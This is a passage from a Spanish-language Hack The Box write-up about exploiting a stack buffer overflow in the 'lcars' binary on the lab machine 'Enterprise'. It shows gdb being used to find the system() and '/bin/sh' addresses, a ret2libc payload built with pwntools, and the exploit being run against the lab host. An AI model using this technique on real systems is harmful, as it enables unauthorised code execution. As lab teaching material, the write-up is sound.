 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112sad_ok.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

Jmmm, dando unas vueltas cai en cuenta que el programa está tomando **nuestras** direcciones en memoria, o sea con las que interactúa el programa en **nuestro sistema**, tiene sentido que no sirva, ya que esas **direcciones** probablemente no sean las mismas que usa el programa en la máquina víctima... Juguemos con ella (ya que tiene **gdb**) para extraer las direcciones en memoria y validar si ese es el error:

```bash
www-data@enterprise:/bin$ gdb ./lcars -q
Reading symbols from ./lcars...(no debugging symbols found)...done.
(gdb)
```

Para obtener todos los valores necesitamos que el programa se ejecute y tenga un **breakpoint** (este para obtener "/bin/sh"), asi que hacemos todo el recorrido (código > 4 > cadena en el apartado *seguridad*) y ahí si jugamos:

```bash
...
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
(gdb) find 0xf7e4c060,+87654321,"/bin/sh"
warning: Unable to access 16000 bytes of target memory at 0xf7f55a67, halting search.
Pattern not found.
(gdb) b main
Breakpoint 1 at 0x56555ca0
(gdb) r
Starting program: /bin/lcars 

Breakpoint 1, 0x56555ca0 in main ()
(gdb) find 0xf7e4c060,+87654321,"/bin/sh"
0xf7f70a0f
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search.
1 pattern found.
(gdb) 
```

Bien, ya tenemos los 2 valores:

* `system()`: `0xf7e4c060`.
* `/bin/sh`: `0xf7f70a0f`.

Agreguémoslos al script y ejecutemos :O

```py
...
payload = ("A"*212).encode() # Pasamos la cadena a bytes para poder concatenarla
payload += p32(0xf7e4c060, endian='little') # System
payload += ("B"*4).encode() # + basurita
payload += p32(0xf7f70a0f, endian='little') # /bin/sh
...
```

```bash
❭ python3 exploit.py ./lcars REMOTE
[*] '/htb/enterprise/scripts/lcars'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

[*] Got EOF while reading in interactive
$ id
```